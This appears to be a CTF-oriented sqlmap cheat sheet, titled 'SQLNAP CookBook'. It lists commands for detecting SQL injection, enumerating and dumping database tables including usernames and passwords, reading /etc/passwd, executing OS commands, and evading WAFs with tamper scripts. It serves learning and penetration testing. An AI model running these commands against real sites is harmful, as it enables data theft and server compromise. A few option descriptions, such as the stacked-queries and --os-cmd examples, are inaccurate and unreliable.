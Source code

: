 ```yaml
---
icon: database
---
```


# SQLNAP CookBook

### The SQLMap Masterclass: Conquer SQL Injection Vulnerabilities

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities. It's a must-have for any CTF player. This manual will guide you through SQLMap's capabilities, from basic usage to advanced techniques.

**I. Core Concepts:**

* **SQL Injection:** A vulnerability that allows attackers to inject malicious SQL code into a web application, potentially gaining access to the database.
* **Target:** The URL or web application endpoint that you want to test for SQL injection.
* **Database Management System (DBMS):** The type of database used by the web application (e.g., MySQL, PostgreSQL, Microsoft SQL Server).
* **Authentication:** Credentials needed to access the database.
* **Data Retrieval:** Extracting data from the database.

**II. Basic Usage:**

1.  **Basic URL Test:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1"
    ```

    Tests the URL for SQL injection vulnerabilities.
2.  **Specifying the DBMS:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbms=mysql
    ```

    Specifies that the DBMS is MySQL (useful if automatic detection fails).
3.  **Listing Databases:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --dbs
    ```

    Enumerates the databases.
4.  **Listing Tables:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D "database_name" --tables
    ```

    Enumerates the tables in the specified database.
5.  **Listing Columns:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D "database_name" -T "table_name" --columns
    ```

    Enumerates the columns in the specified table.
6.  **Dumping Data:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D "database_name" -T "table_name" -C "column1,column2" --dump
    ```

    Dumps the data from the specified columns.

**III. Advanced Options:**

1.  **Setting the HTTP Method:**

    ```bash
    sqlmap -u "http://example.com/page.php" --method=POST --data="id=1"
    ```

    Specifies the HTTP method (e.g., POST) and data.
2.  **Using a Proxy:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
    ```
3.  **Setting the User-Agent:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --user-agent="My-Custom-Agent"
    ```
4.  **Handling Cookies:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --cookie="cookie1=value1; cookie2=value2"
    ```
5.  **Authentication:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --auth-type=basic --auth-cred="user:password"
    ```
6.  **Time-Based Blind Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --time-sec=5
    ```

    Specifies a time delay for blind injection.
7.  **Boolean-Based Blind Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --technique=B
    ```
8.  **Union Query Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --technique=U
    ```
9.  **Stacked Queries:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --sql-query="SELECT @@version"
    ```
10. **File System Access:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"
    ```

    Reads a file from the server's file system (if the database user has privileges).
11. **Operating System Command Execution:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --os-cmd
    ```

    Executes operating system commands (if the database user has privileges).
12. **Tamper Scripts:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --tamper=apostrophemask,randomcase
    ```

    Uses tamper scripts to bypass web application firewalls (WAFs).

**IV. Common Scenarios and Examples:**

1.  **Blind SQL Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --technique=B --dbs  # Boolean-based blind injection
    sqlmap -u "http://example.com/page.php?id=1" --technique=T --dbs  # Time-based blind injection
    ```
2.  **Union-Based SQL Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --technique=U --dbs
    ```
3.  **Error-Based SQL Injection:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --technique=E --dbs
    ```
4.  **Extracting Data from a Specific Table:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" -D "database_name" -T "users" -C "username,password" --dump
    ```
5.  **Bypassing WAFs:**

    ```bash
    sqlmap -u "http://example.com/page.php?id=1" --tamper=apostrophemask,randomcase --dbs
    ```

**V. Tips for CTFs:**

* **Be Patient:** SQLMap can take time, especially for blind injection.
* **Use the Right Technique:** Choose the appropriate injection technique (B, T, U, E, etc.) based on the application's behavior.
* **Try Different Tamper Scripts:** WAFs can be tricky. Experiment with different tamper scripts to find one that works.
* **Read the Documentation:** SQLMap has a lot of options. Refer to the documentation (`sqlmap -h` or `sqlmap --help`) for more details.
* **Combine with Other Tools:** Use SQLMap in conjunction with other tools like Burp Suite for a more comprehensive approach.
* **Practice:** The more you use SQLMap, the more comfortable you'll become with its features.

